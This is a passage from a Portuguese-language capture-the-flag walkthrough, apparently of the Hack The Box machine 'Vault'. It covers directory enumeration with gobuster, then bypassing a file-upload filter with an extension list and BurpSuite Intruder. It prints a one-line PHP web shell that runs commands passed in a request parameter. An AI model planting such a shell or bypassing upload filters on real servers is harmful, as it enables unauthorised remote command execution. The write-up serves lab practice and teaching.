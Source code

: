 > -u - url

> -w - qual é a wordlist

> -x - pra procurar por arquivos com o formato especificado também

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_gobuster1.png)

Bom, com esse gobuster encontramos um `design.html`, então verificamos do que se trata

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_web2.png)

Redireciona para `changelogo.php`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_web3.png)

# Bypass file upload

Bom, uma vez que encontramos um local para realizar upload no servidor, e antes a pasta `uploads`, então é possível que o caminho seja por ai, vamos testar quais tipos de extensão o servidor aceita

Primeiro criamos um arquivo com diversas extensões para serem testadas

ext.txt
```
php
php5
phtml
php4
png
jpg
pdf
txt
ppt
odt
png.php
gif
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp.png)

Mandamos uma requisição de upload para o BurpSuite com um arquivo 'php'
 
> <?php system($_REQUEST['cmd']); ?>

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp3.png)

Mandamos para o `Intruder`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-vault/V_byp4.png)
